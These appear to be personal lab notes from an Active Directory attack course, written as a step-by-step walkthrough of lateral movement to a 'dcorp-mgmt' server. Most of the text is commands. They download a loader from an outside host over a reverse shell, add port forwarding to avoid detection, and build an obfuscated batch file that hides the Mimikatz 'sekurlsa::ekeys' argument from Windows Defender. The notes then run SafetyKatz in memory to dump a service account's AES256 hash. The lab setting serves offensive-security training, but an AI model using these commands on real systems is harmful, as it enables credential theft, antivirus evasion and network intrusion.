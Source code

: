 ==**Abuse using winrs**==
check if we can execute commands on dcorp-mgmt server and if the winrm port is open: (do this in Jenkins session)
```
	winrs -r:dcorp-mgmt cmd /c "set computername && set username"
```
Since we can, we can try to extract creds
For that, we need to copy Loader.exe on dcorp-mgmt. Let's download Loader.exe on dcorp-ci and copy it from there to dcorp-mgmt. This is to avoid any downloading activity on dcorp-mgmt.
Run the following command on the reverse shell:
```
iwr http://172.16.100.x/Loader.exe -OutFile C:\Users\Public\Loader.exe
```
Now, copy the Loader.exe to dcorp-mgmt:
```
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```
Using winrs, add the following port forwarding on dcorp-mgmt to avoid detection on dcorp-mgmt:
```
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"
```
Note that Windows Defender on dcorp-mgmt would detect SafetKatz execution even when used with Loader. To avoid that, let's pass encoded arguments to the Loader, go to C:\AD\Tools
```
ArgSplit.bat
sekurlsa::ekeys
```
make batch file like  and name is safety.bat
```
@echo off
set "z=s"
set "y=y"
set "x=e"
set "w=k"
set "v=e"
set "u=:"
set "t=:"
set "s=a"
set "r=s"
set "q=l"
set "p=r"
set "o=u"
set "n=k"
set "m=e"
set "l=s"
set "Pwn=%l%%m%%n%%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
echo %Pwn%
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -Args %Pwn% exit
```
Download the batch file on dcorp-ci. Run the below commands on the reverse shell:
```
iwr http://172.16.100.x/Safety.bat -OutFile C:\Users\Public\Safety.bat
```
Now, copy the Safety.bat to dcorp-mgmt:
```
echo F | xcopy C:\Users\Public\Safety.bat \\dcorp-mgmt\C$\Users\Public\Safety.bat
```
Run Safety.bat on dcorp-mgmt that use Loader.exe to download and execute SafetyKatz.exe in-memory on dcorp-mgmt:
```
$null | winrs -r:dcorp-mgmt "cmd /c C:\Users\Public\Safety.bat"
```
we will find svcadmin creds (aes256 hash)
Then we will  use **==OverPass-the-Hash to use svcadmin's credentials==**
```
go to C:\AD\Tools\ArgSplit.bat in new cmd in student VM
```